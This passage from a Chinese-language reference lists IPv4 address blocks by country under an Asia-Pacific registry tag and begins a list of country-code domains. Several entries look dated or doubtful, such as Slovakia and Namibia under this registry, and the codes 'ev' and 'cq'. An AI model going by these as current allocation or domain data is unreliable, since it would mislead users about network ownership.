| 202.21.0.0–202.21.7.255 | 202.21.0/21 R PNIC | 211.32.0.0–211.63.255.255 | 211.32/11 R PNIC |

### 吉尔吉斯共和国

| 地址段1 | 前缀/属性 | 地址段2 | 前缀/属性 |
|---|---|---|---|
| 202.58.0.0–202.58.31.255 | 202.58.0/19 A PNIC | 202.137.128.0–202.137.159.255 | 202.137.128/19 A PNIC |

### 斯里兰卡

| 地址段1 | 前缀/属性 | 地址段2 | 前缀/属性 |
|---|---|---|---|
| 202.21.32.0–202.21.63.255 | 202.21.32/19 K PNIC | 203.142.0.0–203.142.31.255 | 203.142.0/19 K PNIC |
| 202.51.128.0–202.51.159.255 | 202.51.128/19 K PNIC | 203.143.0.0–203.143.31.255 | 203.143.0/19 K PNIC |
| 203.115.0.0–203.115.63.255 | 203.115.0/18 K PNIC |  |  |

### 蒙古

| 地址段1 | 前缀/属性 | 地址段2 | 前缀/属性 |
|---|---|---|---|
| 202.131.0.0–202.131.63.255 | 202.131.0/18 N PNIC | 202.170.64.0–202.170.95.255 | 202.170.64/19 N PNIC |
| 202.131.192.0–202.131.255.255 | 202.131.192/18 N PNIC | 202.179.0.0–202.179.31.255 | 202.179.0/19 N PNIC |

### 澳门

| 地址段1 | 前缀/属性 | 地址段2 | 前缀/属性 |
|---|---|---|---|
| 202.171.252.0–202.171.255.255 | 202.171.252/22 O PNIC | 202.173.0.0–202.173.31.255 | 202.173.0/19 O PNIC |
| 202.172.0.0–202.172.255.255 | 202.172/16 O PNIC | 202.174.0.0–202.175.255.255 | 202.174/15 O PNIC |

### 毛里求斯

| 地址段 | 前缀/属性 |
|---|---|
| 202.60.0.0–202.60.31.255 | 202.60.0/19 U PNIC |

### 马尔代夫

| 地址段 | 前缀/属性 |
|---|---|
| 202.1.192.0–202.1.223.255 | 202.1.192/19 V PNIC |

### 马来西亚

| 地址段1 | 前缀1 | 类型1 | 注册机构1 | 地址段2 | 前缀2 | 类型2 | 注册机构2 |
|---|---|---|---|---|---|---|---|
| 202.0.94.0–202.0.94.255 | 202.0.94/24 | Y | PNIC | 202.162.0.0–202.162.31.255 | 202.162.0/19 | Y | PNIC |
| 202.9.64.0–202.9.95.255 | 202.9.64/19 | Y | PNIC | 202.178.0.0–202.178.63.255 | 202.178.0/18 | Y | PNIC |
| 202.21.148.0–202.21.148.255 | 202.21.148/24 | Y | PNIC | 202.184.0.0–202.191.255.255 | 202.184/13 | Y | PNIC |
| 202.47.160.0–202.47.191.255 | 202.47.160/19 | Y | PNIC | 203.106.0.0–203.106.127.255 | 203.106.0/17 | Y | PNIC |
| 202.75.128.0–202.75.191.255 | 202.75.128/18 | Y | PNIC | 203.115.224.0–203.115.255.255 | 203.115.224/19 | Y | PNIC |
| 202.137.224.0–202.137.255.255 | 202.137.224/19 | Y | PNIC | 203.121.0.0–203.121.31.255 | 203.121.0/19 | Y | PNIC |

### 法属新喀里多尼亚

| 地址段1 | 前缀1 | 类型1 | 注册机构1 | 地址段2 | 前缀2 | 类型2 | 注册机构2 |
|---|---|---|---|---|---|---|---|
| 202.22.128.0–202.22.159.255 | 202.22.128/19 | C | PNIC | 202.87.128.0–202.87.159.255 | 202.87.128/19 | C | PNIC |

### 尼泊尔

| 地址段1 | 前缀1 | 类型1 | 注册机构1 | 地址段2 | 前缀2 | 类型2 | 注册机构2 |
|---|---|---|---|---|---|---|---|
| 202.51.0.0–202.51.31.255 | 202.51.0/19 | P | PNIC | 202.70.96.0–202.70.111.255 | 202.70.96/20 | P | PNIC |
| 202.51.64.0–202.51.95.255 | 202.51.64/19 | P | PNIC | 202.70.112.0–202.70.119.255 | 202.70.112/21 | P | PNIC |
| 202.52.0.0–202.52.31.255 | 202.52.0/19 | P | PNIC | 202.70.120.0–202.70.123.255 | 202.70.120/22 | P | PNIC |
| 202.52.224.0–202.52.255.255 | 202.52.224/19 | P | PNIC | 202.70.124.0–202.70.125.255 | 202.70.124/23 | P | PNIC |
| 202.53.0.0–202.53.31.255 | 202.53.0/19 | P | PNIC | 202.70.126.0–202.70.126.255 | 202.70.126/24 | P | PNIC |
| 202.70.64.0–202.70.95.255 | 202.70.64/19 | P | PNIC | 202.79.32.0–202.79.63.255 | 202.79.32/19 | P | PNIC |

### 纳米比亚

| 地址段 | 前缀 | 类型 | 注册机构 |
|---|---|---|---|
| 203.98.224.0–203.98.255.255 | 203.98.224/19 | R | PNIC |

### 新西兰

| 地址段1 | 前缀1 | 类型1 | 注册机构1 | 地址段2 | 前缀2 | 类型2 | 注册机构2 |
|---|---|---|---|---|---|---|---|
| 202.0.10.0–202.0.10.255 | 202.0.10/24 | Z | PNIC | 202.4.16.0–202.4.23.255 | 202.4.16/21 | Z | PNIC |
| 202.0.32.0–202.0.63.255 | 202.0.32/19 | Z | PNIC | 202.4.24.0–202.4.24.255 | 202.4.24/24 | Z | PNIC |
| 202.0.84.0–202.0.84.255 | 202.0.84/24 | Z | PNIC | 202.6.5.0–202.6.5.255 | 202.6.5/24 | Z | PNIC |
| 202.0.97.0–202.0.97.255 | 202.0.97/24 | Z | PNIC | 202.6.6.0–202.6.7.255 | 202.6.6/23 | Z | PNIC |
| 202.0.121.0–202.0.121.255 | 202.0.121/24 | Z | PNIC | 202.6.84.0–202.6.87.255 | 202.6.84/22 | Z | PNIC |
| 202.0.124.0–202.0.125.255 | 202.0.124/23 | Z | PNIC | 202.6.93.0–202.6.93.255 | 202.6.93/24 | Z | PNIC |
| 202.0.151.0–202.0.151.255 | 202.0.151/24 | Z | PNIC | 202.6.109.0–202.6.109.255 | 202.6.109/24 | Z | PNIC |
| 202.0.153.0–202.0.153.255 | 202.0.153/24 | Z | PNIC | 202.6.110.0–202.6.110.255 | 202.6.110/24 | Z | PNIC |
| 202.1.8.0–202.1.15.255 | 202.1.8/21 | Z | PNIC | 202.7.4.0–202.7.7.255 | 202.7.4/22 | Z | PNIC |
| 202.2.4.0–202.2.7.255 | 202.2.4/22 | Z | PNIC | 202.7.32.0–202.7.63.255 | 202.7.32/19 | Z | PNIC |
| 202.2.8.0–202.2.15.255 | 202.2.8/21 | Z | PNIC | 202.8.8.0–202.8.11.255 | 202.8.8/22 | Z | PNIC |
| 202.3.16.0–202.3.31.255 | 202.3.16/20 | Z | PNIC | 202.8.12.0–202.8.12.255 | 202.8.12/24 | Z | PNIC |

### 新西兰

| IP段（左列） | CIDR/备注 | 注册机构 | IP段（右列） | CIDR/备注 | 注册机构 |
|---|---|---|---|---|---|
| 202.12.0.0–202.12.0.255 | 202.12.0/24 Z | PNIC | 202.14.218.0–202.14.218.255 | 202.14.218/24 Z | PNIC |
| 202.12.3.0–202.12.3.255 | 202.12.3/24 Z | PNIC | 202.14.224.0–202.14.227.255 | 202.14.224/22 Z | PNIC |
| 202.12.70.0–202.12.70.255 | 202.12.70/24 Z | PNIC | 202.14.228.0–202.14.228.255 | 202.14.228/24 Z | PNIC |
| 202.12.76.0–202.12.79.255 | 202.12.76/22 Z | PNIC | 202.14.252.0–202.14.253.255 | 202.14.252/23 Z | PNIC |
| 202.12.80.0–202.12.83.255 | 202.12.80/22 Z | PNIC | 202.14.254.0–202.14.254.255 | 202.14.254/24 Z | PNIC |
| 202.12.84.0–202.12.85.255 | 202.12.84/23 Z | PNIC | 202.20.0.0–202.20.7.255 | 202.20.0/21 Z | PNIC |
| 202.12.91.0–202.12.91.255 | 202.12.91/24 Z | PNIC | 202.20.32.0–202.20.63.255 | 202.20.32/19 Z | PNIC |
| 202.12.96.0–202.12.96.255 | 202.12.96/24 Z | PNIC | 202.20.64.0–202.20.65.255 | 202.20.64/23 Z | PNIC |
| 202.12.101.0–202.12.101.255 | 202.12.101/24 Z | PNIC | 202.20.76.0–202.20.79.255 | 202.20.76/22 Z | PNIC |
| 202.12.102.0–202.12.103.255 | 202.12.102/23 Z | PNIC | 202.20.80.0–202.20.80.255 | 202.20.80/24 Z | PNIC |
| 202.12.104.0–202.12.105.255 | 202.12.104/23 Z | PNIC | 202.20.91.0–202.20.91.255 | 202.20.91/24 Z | PNIC |
| 202.12.108.0–202.12.108.255 | 202.12.108/24 Z | PNIC | 202.20.92.0–202.20.93.255 | 202.20.92/23 Z | PNIC |
| 202.12.122.0–202.12.123.255 | 202.12.122/23 Z | PNIC | 202.20.96.0–202.20.97.255 | 202.20.96/23 Z | PNIC |
| 202.12.124.0–202.12.124.255 | 202.12.124/24 Z | PNIC | 202.20.102.0–202.20.103.255 | 202.20.102/23 Z | PNIC |
| 202.14.16.0–202.14.31.255 | 202.14.16/20 Z | PNIC | 202.20.104.0–202.20.104.255 | 202.20.104/24 Z | PNIC |
| 202.14.32.0–202.14.63.255 | 202.14.32/19 Z | PNIC | 202.20.113.0–202.20.113.255 | 202.20.113/24 Z | PNIC |
| 202.14.73.0–202.14.73.255 | 202.14.73/24 Z | PNIC | 202.20.121.0–202.20.121.255 | 202.20.121/24 Z | PNIC |
| 202.14.74.0–202.14.75.255 | 202.14.74/23 Z | PNIC | 202.20.122.0–202.20.122.255 | 202.20.122/24 Z | PNIC |
| 202.14.82.0–202.14.83.255 | 202.14.82/23 Z | PNIC | 202.21.16.0–202.21.31.255 | 202.21.16/20 Z | PNIC |
| 202.14.84.0–202.14.84.255 | 202.14.84/24 Z | PNIC | 202.21.64.0–202.21.95.255 | 202.21.64/19 Z | PNIC |
| 202.14.96.0–202.14.99.255 | 202.14.96/22 Z | PNIC | 202.21.96.0–202.21.111.255 | 202.21.96/20 Z | PNIC |
| 202.14.100.0–202.14.100.255 | 202.14.100/24 Z | PNIC | 202.21.130.0–202.21.131.255 | 202.21.130/23 Z | PNIC |
| 202.14.102.0–202.14.102.255 | 202.14.102/24 Z | PNIC | 202.21.132.0–202.21.133.255 | 202.21.132/23 Z | PNIC |
| 202.14.106.0–202.14.107.255 | 202.14.106/23 Z | PNIC | 202.21.138.0–202.21.139.255 | 202.21.138/23 Z | PNIC |
| 202.14.108.0–202.14.109.255 | 202.14.108/23 Z | PNIC | 202.21.141.0–202.21.141.255 | 202.21.141/24 Z | PNIC |
| 202.14.114.0–202.14.115.255 | 202.14.114/23 Z | PNIC | 202.21.142.0–202.21.143.255 | 202.21.142/23 Z | PNIC |
| 202.14.127.0–202.14.127.255 | 202.14.127/24 Z | PNIC | 202.21.155.0–202.21.155.255 | 202.21.155/24 Z | PNIC |
| 202.14.135.0–202.14.135.255 | 202.14.135/24 Z | PNIC | 202.21.156.0–202.21.157.255 | 202.21.156/23 Z | PNIC |
| 202.14.136.0–202.14.136.255 | 202.14.136/24 Z | PNIC | 202.22.0.0–202.22.7.255 | 202.22.0/21 Z | PNIC |
| 202.14.140.0–202.14.141.255 | 202.14.140/23 Z | PNIC | 202.22.16.0–202.22.31.255 | 202.22.16/20 Z | PNIC |
| 202.14.142.0–202.14.142.255 | 202.14.142/24 Z | PNIC | 202.27.0.0–202.27.15.255 | 202.27.0/20 Z | PNIC |
| 202.14.149.0–202.14.149.255 | 202.14.149/24 Z | PNIC | 202.27.32.0–202.27.63.255 | 202.27.32/19 Z | PNIC |
| 202.14.150.0–202.14.150.255 | 202.14.150/24 Z | PNIC | 202.27.64.0–202.27.127.255 | 202.27.64/18 Z | PNIC |
| 202.14.167.0–202.14.167.255 | 202.14.167/24 Z | PNIC | 202.27.128.0–202.27.255.255 | 202.27.128/17 Z | PNIC |
| 202.14.168.0–202.14.168.255 | 202.14.168/24 Z | PNIC | 202.36.0.0–202.37.255.255 | 202.36/15 Z | PNIC |
| 202.14.216.0–202.14.217.255 | 202.14.216/23 Z | PNIC | 202.46.160.0–202.46.191.255 | 202.46.160/19 Z | PNIC |

# 附录

### 新西兰

| 地址范围 | CIDR | 类型 | 注册机构 | 地址范围 | CIDR | 类型 | 注册机构 |
|---|---|---|---|---|---|---|---|
| 202.50.0.0–202.50.255.255 | 202.50/16 | Z | PNIC | 203.98.0.0–203.98.63.255 | 203.98.0/18 | Z | PNIC |
| 202.78.128.0–202.78.159.255 | 202.78.128/19 | Z | PNIC | 203.99.0.0–203.99.63.255 | 203.99.0/18 | Z | PNIC |
| 202.83.32.0–202.83.63.255 | 202.83.32/19 | Z | PNIC | 203.99.64.0–203.99.71.255 | 203.99.64/21 | Z | PNIC |
| 202.89.128.0–202.89.191.255 | 202.89.128/18 | Z | PNIC | 203.109.128.0–203.109.255.255 | 203.109.128/17 | Z | PNIC |
| 202.148.128.0–202.148.191.255 | 202.148.128/18 | Z | PNIC | 203.110.0.0–203.110.31.255 | 203.110.0/19 | Z | PNIC |
| 202.180.64.0–202.180.95.255 | 202.180.64/19 | Z | PNIC | 203.167.192.0–203.167.255.255 | 203.167.192/18 | Z | PNIC |
| 203.79.64.0–203.79.95.255 | 203.79.64/19 | Z | PNIC | 210.48.0.0–210.55.255.255 | 210.48/13 | Z | PNIC |
| 203.96.0.0–203.97.255.255 | 203.96/15 | Z | PNIC |  |  |  |  |

### 法属波利尼西亚

| 地址范围 | CIDR | 类型 | 注册机构 | 地址范围 | CIDR | 类型 | 注册机构 |
|---|---|---|---|---|---|---|---|
| 202.3.128.0–202.3.159.255 | 202.3.128/19 | F | PNIC | 202.3.224.0–202.3.255.255 | 202.3.224/19 | F | PNIC |

### 巴布亚新几内亚

| 地址范围 | CIDR | 类型 | 注册机构 | 地址范围 | CIDR | 类型 | 注册机构 |
|---|---|---|---|---|---|---|---|
| 202.0.80.0–202.0.80.255 | 202.0.80/24 | G | PNIC | 202.58.128.0–202.58.159.255 | 202.58.128/19 | G | PNIC |
| 202.1.32.0–202.1.63.255 | 202.1.32/19 | G | PNIC | 202.61.0.0–202.61.31.255 | 202.61.0/19 | G | PNIC |
| 202.1.240.0–202.1.255.255 | 202.1.240/20 | G | PNIC |  |  |  |  |

### 菲律宾

| 地址范围 | CIDR | 类型 | 注册机构 | 地址范围 | CIDR | 类型 | 注册机构 |
|---|---|---|---|---|---|---|---|
| 61.9.0.0–61.9.127.255 | 61.9.0/17 | H | PNIC | 202.58.96.0–202.58.127.255 | 202.58.96/19 | H | PNIC |
| 202.0.16.0–202.0.31.255 | 202.0.16/20 | H | PNIC | 202.58.224.0–202.58.255.255 | 202.58.224/19 | H | PNIC |
| 202.0.91.0–202.0.91.255 | 202.0.91/24 | H | PNIC | 202.59.128.0–202.59.159.255 | 202.59.128/19 | H | PNIC |
| 202.4.0.0–202.4.15.255 | 202.4.0/20 | H | PNIC | 202.61.64.0–202.61.95.255 | 202.61.64/19 | H | PNIC |
| 202.8.224.0–202.8.255.255 | 202.8.224/19 | H | PNIC | 202.78.64.0–202.78.95.255 | 202.78.64/19 | H | PNIC |
| 202.12.17.0–202.12.17.255 | 202.12.17/24 | H | PNIC | 202.79.128.0–202.79.159.255 | 202.79.128/19 | H | PNIC |
| 202.12.18.0–202.12.18.255 | 202.12.18/24 | H | PNIC | 202.89.96.0–202.89.127.255 | 202.89.96/19 | H | PNIC |
| 202.43.128.0–202.43.191.255 | 202.43.128/18 | H | PNIC | 202.90.128.0–202.90.191.255 | 202.90.128/18 | H | PNIC |
| 202.43.192.0–202.43.223.255 | 202.43.192/19 | H | PNIC | 202.93.64.0–202.93.127.255 | 202.93.64/18 | H | PNIC |
| 202.47.0.0–202.47.31.255 | 202.47.0/19 | H | PNIC | 202.134.0.0–202.134.31.255 | 202.134.0/19 | H | PNIC |
| 202.47.96.0–202.47.127.255 | 202.47.96/19 | H | PNIC | 202.134.224.0–202.134.255.255 | 202.134.224/19 | H | PNIC |
| 202.47.128.0–202.47.135.255 | 202.47.128/21 | H | PNIC | 202.136.0.0–202.136.127.255 | 202.136.0/17 | H | PNIC |
| 202.47.136.0–202.47.139.255 | 202.47.136/22 | H | PNIC | 202.138.128.0–202.138.159.255 | 202.138.128/19 | H | PNIC |
| 202.47.140.0–202.47.141.255 | 202.47.140/23 | H | PNIC | 202.163.224.0–202.163.255.255 | 202.163.224/19 | H | PNIC |
| 202.56.96.0–202.56.127.255 | 202.56.96/19 | H | PNIC | 202.164.128.0–202.164.159.255 | 202.164.128/19 | H | PNIC |
| 202.57.32.0–202.57.63.255 | 202.57.32/19 | H | PNIC | 202.168.0.0–202.168.1.255 | 202.168.0/23 | H | PNIC |
| 202.57.64.0–202.57.127.255 | 202.57.64/18 | H | PNIC | 203.78.224.0–203.78.255.255 | 203.78.224/19 | H | PNIC |

### 菲律宾

| IP范围 | CIDR | 类型 | 注册机构 |
|---|---|---|---|
| 203.84.192.0–203.84.223.255 | 203.84.192/19 | H | PNIC |
| 203.167.0.0–203.167.127.255 | 203.167.0/17 | H | PNIC |
| 203.168.0.0–203.168.255.255 | 203.168/16 | H | PNIC |
| 203.169.0.0–203.169.127.255 | 203.169.0/17 | H | PNIC |
| 203.170.0.0–203.171.255.255 | 203.170/15 | H | PNIC |
| 203.172.0.0–203.172.255.255 | 203.172/16 | H | PNIC |
| 203.173.128.0–203.173.255.255 | 203.173.128/17 | H | PNIC |
| 203.174.0.0–203.174.127.255 | 203.174.0/17 | H | PNIC |
| 203.175.0.0–203.175.255.255 | 203.175/16 | H | PNIC |
| 203.176.0.0–203.177.255.255 | 203.176/15 | H | PNIC |
| 210.14.0.0–210.14.31.255 | 210.14.0/19 | H | PNIC |
| 210.16.0.0–210.16.127.255 | 210.16.0/17 | H | PNIC |
| 210.23.96.0–210.23.127.255 | 210.23.96/19 | H | PNIC |
| 210.23.192.0–210.23.255.255 | 210.23.192/18 | H | PNIC |

### 巴基斯坦

| IP范围 | CIDR | 类型 | 注册机构 |
|---|---|---|---|
| 202.5.128.0–202.5.159.255 | 202.5.128/19 | K | PNIC |
| 202.59.64.0–202.59.95.255 | 202.59.64/19 | K | PNIC |
| 202.63.192.0–202.63.223.255 | 202.63.192/19 | K | PNIC |
| 202.87.96.0–202.87.127.255 | 202.87.96/19 | K | PNIC |
| 202.163.96.0–202.163.127.255 | 202.163.96/19 | K | PNIC |
| 202.165.224.0–202.165.255.255 | 202.165.224/19 | K | PNIC |
| 202.179.128.0–202.179.159.255 | 202.179.128/19 | K | PNIC |
| 203.128.0.0–203.128.255.255 | 203.128/16 | K | PNIC |
| 203.129.0.0–203.129.63.255 | 203.129.0/18 | K | PNIC |
| 203.130.0.0–203.130.63.255 | 203.130.0/18 | K | PNIC |
| 203.133.192.0–203.133.255.255 | 203.133.192/18 | K | PNIC |
| 203.134.192.0–203.134.255.255 | 203.134.192/18 | K | PNIC |
| 203.135.0.0–203.135.63.255 | 203.135.0/18 | K | PNIC |
| 210.56.0.0–210.56.31.255 | 210.56.0/19 | K | PNIC |

### 斯洛伐克

| IP范围 | CIDR | 类型 | 注册机构 |
|---|---|---|---|
| 202.1.160.0–202.1.191.255 | 202.1.160/19 | B | PNIC |
| 202.63.224.0–202.63.255.255 | 202.63.224/19 | B | PNIC |

### 新加坡

| IP范围 | CIDR | 类型 | 注册机构 |
|---|---|---|---|
| 61.8.224.0–61.8.255.255 | 61.8.224/19 | G | PNIC |
| 202.0.71.0–202.0.71.255 | 202.0.71/24 | G | PNIC |
| 202.0.88.0–202.0.89.255 | 202.0.88/23 | G | PNIC |
| 202.0.126.0–202.0.127.255 | 202.0.126/23 | G | PNIC |
| 202.0.149.0–202.0.149.255 | 202.0.149/24 | G | PNIC |
| 202.0.150.0–202.0.150.255 | 202.0.150/24 | G | PNIC |
| 202.0.152.0–202.0.152.255 | 202.0.152/24 | G | PNIC |
| 202.1.64.0–202.1.127.255 | 202.1.64/18 | G | PNIC |
| 202.1.128.0–202.1.159.255 | 202.1.128/19 | G | PNIC |
| 202.6.102.0–202.6.102.255 | 202.6.102/24 | G | PNIC |
| 202.8.4.0–202.8.5.255 | 202.8.4/23 | G | PNIC |
| 202.8.94.0–202.8.95.255 | 202.8.94/23 | G | PNIC |
| 202.12.2.0–202.12.2.255 | 202.12.2/24 | G | PNIC |
| 202.12.94.0–202.12.95.255 | 202.12.94/23 | G | PNIC |
| 202.14.153.0–202.14.153.255 | 202.14.153/24 | G | PNIC |
| 202.14.154.0–202.14.154.255 | 202.14.154/24 | G | PNIC |
| 202.20.114.0–202.20.115.255 | 202.20.114/23 | G | PNIC |
| 202.20.116.0–202.20.116.255 | 202.20.116/24 | G | PNIC |
| 202.21.145.0–202.21.145.255 | 202.21.145/24 | G | PNIC |
| 202.21.146.0–202.21.146.255 | 202.21.146/24 | G | PNIC |
| 202.21.154.0–202.21.154.255 | 202.21.154/24 | G | PNIC |
| 202.21.192.0–202.21.255.255 | 202.21.192/18 | G | PNIC |
| 202.27.16.0–202.27.31.255 | 202.27.16/20 | G | PNIC |
| 202.42.0.0–202.42.255.255 | 202.42/16 | G | PNIC |
| 202.56.128.0–202.56.159.255 | 202.56.128/19 | G | PNIC |
| 202.79.64.0–202.79.127.255 | 202.79.64/18 | G | PNIC |
| 202.156.0.0–202.156.63.255 | 202.156.0/18 | G | PNIC |
| 202.156.64.0–202.156.95.255 | 202.156.64/19 | G | PNIC |

# 附录

### 新加坡

| 地址范围（左列） | 前缀/属性 | RIR | 地址范围（右列） | 前缀/属性 | RIR |
|---|---|---|---|---|---|
| 202.160.224.0–202.160.255.255 | 202.160.224/19 G | PNIC | 203.121.32.0–203.121.63.255 | 203.121.32/19 G | PNIC |
| 202.166.0.0–202.166.127.255 | 202.166.0/17 G | PNIC | 203.121.64.0–203.121.127.255 | 203.121.64/18 G | PNIC |
| 202.169.224.0–202.169.255.255 | 202.169.224/19 G | PNIC | 203.121.128.0–203.121.255.255 | 203.121.128/17 G | PNIC |
| 202.176.0.0–202.176.0.31 | 202.176.0.0/27 G | PNIC | 203.122.0.0–203.123.255.255 | 203.122/15 G | PNIC |
| 203.112.0.0–203.112.31.255 | 203.112.0/19 G | PNIC | 203.124.0.0–203.127.255.255 | 203.124/14 G | PNIC |
| 203.116.0.0–203.119.255.255 | 203.116/14 G | PNIC | 210.23.128.0–210.23.159.255 | 210.23.128/19 G | PNIC |
| 203.120.0.0–203.120.255.255 | 203.120/16 G | PNIC | 210.24.0.0–210.24.255.255 | 210.24/16 G | PNIC |

### 印度

| 地址范围（左列） | 前缀/属性 | RIR | 地址范围（右列） | 前缀/属性 | RIR |
|---|---|---|---|---|---|
| 61.11.224.0–61.11.255.255 | 61.11.224/19 H | PNIC | 202.21.134.0–202.21.135.255 | 202.21.134/23 H | PNIC |
| 202.0.79.0–202.0.79.255 | 202.0.79/24 H | PNIC | 202.21.140.0–202.21.140.255 | 202.21.140/24 H | PNIC |
| 202.0.111.0–202.0.111.255 | 202.0.111/24 H | PNIC | 202.21.144.0–202.21.144.255 | 202.21.144/24 H | PNIC |
| 202.0.117.0–202.0.117.255 | 202.0.117/24 H | PNIC | 202.21.149.0–202.21.149.255 | 202.21.149/24 H | PNIC |
| 202.0.118.0–202.0.119.255 | 202.0.118/23 H | PNIC | 202.22.8.0–202.22.15.255 | 202.22.8/21 H | PNIC |
| 202.0.120.0–202.0.120.255 | 202.0.120/24 H | PNIC | 202.22.32.0–202.22.63.255 | 202.22.32/19 H | PNIC |
| 202.6.90.0–202.6.90.255 | 202.6.90/24 H | PNIC | 202.28.0.0–202.29.255.255 | 202.28/15 H | PNIC |
| 202.6.100.0–202.6.101.255 | 202.6.100/23 H | PNIC | 202.44.0.0–202.44.255.255 | 202.44/16 H | PNIC |
| 202.6.107.0–202.6.107.255 | 202.6.107/24 H | PNIC | 202.47.248.0–202.47.255.255 | 202.47.248/21 H | PNIC |
| 202.6.111.0–202.6.111.255 | 202.6.111/24 H | PNIC | 202.57.128.0–202.57.159.255 | 202.57.128/19 H | PNIC |
| 202.8.64.0–202.8.71.255 | 202.8.64/21 H | PNIC | 202.59.224.0–202.59.255.255 | 202.59.224/19 H | PNIC |
| 202.8.72.0–202.8.75.255 | 202.8.72/22 H | PNIC | 202.74.32.0–202.74.63.255 | 202.74.32/19 H | PNIC |
| 202.12.73.0–202.12.73.255 | 202.12.73/24 H | PNIC | 202.80.224.0–202.80.255.255 | 202.80.224/19 H | PNIC |
| 202.12.74.0–202.12.74.255 | 202.12.74/24 H | PNIC | 202.153.0.0–202.153.255.255 | 202.153/16 H | PNIC |
| 202.12.97.0–202.12.97.255 | 202.12.97/24 H | PNIC | 202.182.0.0–202.182.31.255 | 202.182.0/19 H | PNIC |
| 202.12.116.0–202.12.116.255 | 202.12.116/24 H | PNIC | 202.183.160.0–202.183.191.255 | 202.183.160/19 H | PNIC |
| 202.14.90.0–202.14.91.255 | 202.14.90/23 H | PNIC | 202.183.192.0–202.183.255.255 | 202.183.192/18 H | PNIC |
| 202.14.92.0–202.14.93.255 | 202.14.92/23 H | PNIC | 203.107.128.0–203.107.255.255 | 203.107.128/17 H | PNIC |
| 202.14.94.0–202.14.94.255 | 202.14.94/24 H | PNIC | 203.113.0.0–203.113.255.255 | 203.113/16 H | PNIC |
| 202.14.117.0–202.14.117.255 | 202.14.117/24 H | PNIC | 203.114.0.0–203.114.255.255 | 203.114/16 H | PNIC |
| 202.14.162.0–202.14.163.255 | 202.14.162/23 H | PNIC | 203.144.192.0–203.144.255.255 | 203.144.192/18 H | PNIC |
| 202.14.164.0–202.14.164.255 | 202.14.164/24 H | PNIC | 203.145.0.0–203.145.63.255 | 203.145.0/18 H | PNIC |
| 202.20.67.0–202.20.67.255 | 202.20.67/24 H | PNIC | 203.146.0.0–203.146.255.255 | 203.146/16 H | PNIC |
| 202.20.68.0–202.20.68.255 | 202.20.68/24 H | PNIC | 203.147.0.0–203.147.63.255 | 203.147.0/18 H | PNIC |
| 202.20.87.0–202.20.87.255 | 202.20.87/24 H | PNIC | 203.148.160.0–203.148.191.255 | 203.148.160/19 H | PNIC |
| 202.20.105.0–202.20.105.255 | 202.20.105/24 H | PNIC | 203.148.192.0–203.148.255.255 | 203.148.192/18 H | PNIC |

## 各国域名

- ad : Andorra，安道尔
- ae : United Arab Emirates，阿联酋
- af : Afghanistan，阿富汗
- ag : Antigua and Barbuda，安提瓜和巴布达
- ai : Anguilla，安格拉
- al : Albania，阿尔巴尼亚
- am : Armenia，亚美尼亚
- an : Netherlands Antilles，荷兰属地
- ao : Angola，安哥拉
- aq : Antarctica，南极洲
- ar : Argentina，阿根廷
- as : American Samoa，东萨摩亚
- at : Austria，奥地利
- au : Australia，澳大利亚
- aw : Aruba，阿鲁巴
- az : Azerbaijan，阿塞拜疆
- ba : Bosnia Hercegovina，波黑
- bb : Barbados，巴巴多斯
- bd : Bangladesh，孟加拉国
- be : Belgium，比利时
- bf : Burkina Faso，布基纳法索
- bg : Bulgaria，保加利亚
- bh : Bahrain，巴林
- bi : Burundi，布隆迪
- bj : Benin，贝宁
- bm : Bermuda，百慕大
- bn : Brunei Darussalam，文莱达鲁萨兰国
- bo : Bolivia，玻利维亚
- br : Brazil，巴西
- bs : Bahamas，巴哈马
- bt : Bhutan，不丹
- bv : Bouvet Island，布韦群岛
- bw : Botswana，博茨瓦纳
- by : Belarus，白俄罗斯
- bz : Belize，伯利兹
- ca : Canada，加拿大
- cc : Cocos Islands，科科斯群岛
- cf : Central African Republic，中非共和国
- cg : Congo，刚果
- ch : Switzerland，瑞士
- ci : Ivory Coast，象牙海岸
- ck : Cook Islands，库克群岛
- cl : Chile，智利
- cm : Cameroon，喀麦隆
- cn : China，中国
- co : Colombia，哥伦比亚
- cq : Equatorial Guinea，赤道几内亚
- cr : Costa Rica，哥斯达黎加
- cu : Cuba，古巴
- cv : Cape Verde，佛得角
- cx : Christmas Island，圣诞岛（英属）
- cy : Cyprus，塞浦路斯
- cz : Czech Republic，捷克共和国
- de : Germany，德国
- dj : Djibouti，吉布提
- dk : Denmark，丹麦
- dm : Dominica，多米尼加联邦
- do : Dominican Republic，多米尼加共和国
- dz : Algeria，阿尔及利亚
- ec : Ecuador，厄瓜多尔
- ee : Estonia，爱沙尼亚
- eg : Egypt，埃及
- eh : Western Sahara，西撒哈拉
- es : Spain，西班牙
- et : Ethiopia，埃塞俄比亚
- ev : El Salvador，萨尔瓦多
- fi : Finland，芬兰
- fj : Fiji，斐济
- fk : Falkland Islands，福克兰群岛
- fm : Micronesia，密克罗尼西亚
- fo : Faroe Islands，法罗群岛
- fr : France，法国
- ga : Gabon，加蓬
- gb : Great Britain (UK)，大不列颠联合王国
- gd : Grenada，格林纳达
- ge : Georgia，格鲁吉亚
- gf : French Guiana，法属圭亚那
- gh : Ghana，加纳
- gi : Gibraltar，直布罗陀
- gl : Greenland，格陵兰群岛
- gm : Gambia，冈比亚
- gn : Guinea，几内亚
- gp : Guadeloupe，瓜德罗普岛（法属）
- gr : Greece，希腊
- gt : Guatemala，危地马拉
- gu : Guam，关岛
- gw : Guinea-Bissau，几内亚比绍
- gy : Guyana，圭亚那
- hk : Hong Kong，香港
- hm : Heard and McDonald Islands
- hn : Honduras，洪都拉斯
- hr : Croatia，克罗地亚
- ht : Haiti，海地
- hu : Hungary，匈牙利
- id : Indonesia，印度尼西亚
- ie : Ireland，爱尔兰共和国
- il : Israel，以色列
- in : India，印度
- io : British Indian Ocean Territory，英属印度洋领地
- iq : Iraq，伊拉克
- ir : Iran，伊朗
- is : Iceland，冰岛
- it : Italy，意大利
- jm : Jamaica，牙买加
- jo : Jordan，约旦
- jp : Japan，日本
- ke : Kenya，肯尼亚
- kg : Kyrgyzstan，吉尔吉斯斯坦
- kh : Cambodia，柬埔寨
- ki : Kiribati，基里巴斯
- km : Comoros，科摩罗
- kn : St. Kitts and Nevis
- kp : Korea--North，北朝鲜
- kr : Korea--South，南朝鲜
- kw : Kuwait，科威特
- ky : Cayman Islands，开曼群岛（英属）
- kz : Kazakhstan，哈萨克斯坦
- la : Lao People Republic，老挝人民共和国
- lb : Lebanon，黎巴嫩
- lc : St. Lucia，圣露西亚岛
- li : Liechtenstein，列支敦士登
- lk : Sri Lanka，斯里兰卡
- lr : Liberia，利比里亚
- ls : Lesotho，莱索托
